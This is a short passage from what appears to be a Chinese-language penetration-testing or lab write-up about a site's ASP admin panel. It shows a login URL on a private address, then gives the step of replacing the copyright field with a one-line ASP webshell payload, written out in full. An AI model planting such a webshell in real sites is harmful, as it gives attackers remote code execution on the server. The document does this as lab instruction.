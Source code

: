 `http://192.168.48.1:8001/admin/Login.asp`

![解3acdbb255b45d296md5](http://asec.me/wp-content/uploads/2017/09/3.png)

进后台修改版权信息为一句话木马`"%><%eval request("abc")%><%'"`

![版权信息](http://asec.me/wp-content/uploads/2017/09/4.png)